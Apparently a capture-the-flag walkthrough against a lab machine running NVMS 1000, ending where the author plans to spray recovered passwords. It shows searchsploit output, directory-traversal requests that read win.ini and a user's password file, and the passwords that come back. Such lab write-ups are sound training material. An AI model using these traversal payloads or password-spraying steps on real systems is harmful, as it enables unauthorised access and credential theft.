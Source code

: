 ```
cat 'Notes to do.txt' 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

I go to website on port 80 and it redirects me to a login page 
`http://10.10.10.184/Pages/login.htm`

guessed a few passwords for nadine and nathan but nothing

lets look for vulns for it:
```
searchsploit nvms                       
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                                                    | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modification                   | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow                                 | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                                                | hardware/webapps/48311.py
```

ok looks like it could be vuln to directory traversal... ill give it a shot manually before we download an exploit...
i cant get it lol

i sent it over to burpsuite as those exploits really just did what i did in browser

i tried` ../../../../../../windows/win.ini` and i got something back,

Knowing now it works and the confidential.txt we saw earlier lets guess some file names on nathans desktop as we know he put something there:
`GET /../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt`

gives me the juice!
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

we can easily spray these at the site:
